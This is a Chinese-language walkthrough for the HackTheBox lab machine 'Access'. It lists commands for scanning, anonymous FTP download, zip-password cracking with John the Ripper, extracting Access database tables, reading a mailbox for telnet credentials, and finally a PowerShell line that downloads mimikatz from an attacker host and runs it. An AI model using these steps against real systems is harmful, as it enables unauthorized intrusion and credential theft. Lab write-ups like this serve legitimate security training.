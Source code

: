 # HackTheBox-Access

## nmap扫描
        nmap -sC -sV -oA nmap/access 10.10.10.98

## ftp端口
        ftp 10.10.10.98
        (输入<user:password>:<anonymous:anonymous>)
        // 下载文件(wget方式)
        wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
        mv 10.10.10.98/ ftp cd ftp
        cd Engineer 
        unzip xxx.zip
        7z x xxx.zip
        7z l -slt xxx.zip

## 破解压缩密码
        zip2john xxx.zip > xxx.hash

### Microsoft数据库
#### Method 1:
        file xxx.mdb
        strings -n 8 xxx.mdb | sort -u > wordlist
        john xxx.hash --wordlist=wordlist --show

#### Method 2: 
        mdb-sql xxx.mdb
        => list tables
        => go
        // 或者
        mdb-tables xxx.mdb
        for i in $(mdb-tables backup.mdb); do echo $i; done
        for i in $(mdb-tables backup.mdb); do mdb-export backup.mdb $i > tables/$i; done
        cd tables
        du -s * | sort -nr
        wc -l * | sort -n 
        (忽视所有只有一行的数据库，这种数据库只有列名)
    
## 分析xxx.pst
        exiftool xxx.pst
        file xxx.pst
        readpst xxx.pst
        less xxx.mbox
        (得到telnet用户名和密码)

## telnet端口
        telnet 10.10.10.98
        (输入<login:password>)
        type C:\windows\system32\login.cmd
        cd C:\Users\security\Desktop
        (New-Object Net.WebClient).downloadFile('http://myip:8000/mimikatz.exe', 'mimikatz.exe')
        .\mimikatz.exe
